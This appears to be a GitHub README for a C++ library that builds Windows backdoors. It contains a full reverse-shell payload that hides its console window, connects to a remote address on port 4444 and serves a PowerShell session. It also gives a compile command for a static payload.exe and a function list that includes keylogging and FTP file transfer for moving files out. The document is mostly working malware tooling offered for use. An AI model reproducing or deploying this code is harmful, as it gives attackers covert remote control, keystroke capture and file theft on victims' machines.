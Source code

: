 # WinBackdoorLib
a simple module to create "reverse shell or backdoor" simply with Windows API

![Image1](capture.PNG)


## example Payload :
  ```cpp
#include "backdoorlib.h"
#include <iostream>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string.h>
#include <wininet.h>
#include <windows.h>

#pragma comment(lib,"Ws2_32.lib")

#define REMOTE_ADDR "192.168.1.71"
#define REMOTE_PORT 4444

int main()
{
    hide_console();
    WSADATA wsa_version;
    SOCKET socks;

    struct sockaddr_in session;

    session.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    session.sin_family = AF_INET;
    session.sin_port = htons(REMOTE_PORT);

    WSAStartup(MAKEWORD(2,2),&wsa_version);
    socks = WSASocket(AF_INET, SOCK_STREAM,IPPROTO_TCP,0,0,0);
    int c = connect(socks,session);
    if (c == 0)
	{
        execute_powershell(socks);
    }
    return 0;
}
  ```

## Compile Payload :
  ### g++ backdoorlib.cpp reverse_powershell.cpp -o payload.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lwininet
  

## List Function in Header :
```cpp
void hello_world(void);
char * raw_input(char *input_string);
int input(char *input_string);
void clear(void);
int substring_in_string(char *substring,char *string);
void print(char *string);
TCHAR *get_username();
int check_dir(char *pathname);
int tchar_substring_in_string(char *substring,TCHAR *string);
int StartsWith(const char *a, const char *b);
void hide_console(void);
void sleep(int number);
int connect(SOCKET socks_instance,struct sockaddr_in session);
int send(SOCKET socks_instance,char *buffer);
int recv(SOCKET socks_instance,char *buffer,int len);
void cmd_command(SOCKET socks_instance,char *command);
void powershell_command(SOCKET socks_instance,char*command);
void wsl_command(SOCKET socks_instance,char *command);
void execute_process(SOCKET socks_instance,char *process);
void execute_cmd(SOCKET socks_instance);
void execute_powershell(SOCKET socks_instance);
int download_to_ftp(char* filename, char* ftp_host, int ftp_port, char* ftp_user, char* ftp_pass);
int cd(char* path);
int download_on_ftp(char* filename, char* ftp_host, int ftp_port, char* ftp_user, char* ftp_pass);
void WriteLog(string filename, const char* key);
void WriteLogChar(string filename, char key);
int keylistener(string FILENAME_LOG, int key);
int keylogger_spawn(string FILENAME_LOG);
```

